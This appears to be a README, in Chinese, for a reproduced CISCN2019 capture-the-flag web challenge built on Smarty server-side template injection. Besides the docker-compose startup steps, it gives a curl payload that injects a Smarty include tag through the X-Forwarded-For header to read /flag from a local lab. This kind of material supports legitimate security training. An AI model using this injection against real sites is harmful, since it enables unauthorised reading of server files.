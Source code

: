 # CISCN2019 华东南赛区 Web11

## 题目详情

- **CISCN2019 华东南赛区 Web11**

复现完才发现其实蛮简单- -

## 考点

-  Smarty SSTI

## 启动

    docker-compose up -d
    open http://127.0.0.1:80/

## Payload

```
curl -X GET http://127.0.0.1:8302/xff/ -H "X-Forwarded-For: {include file='/flag'}"
```

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）

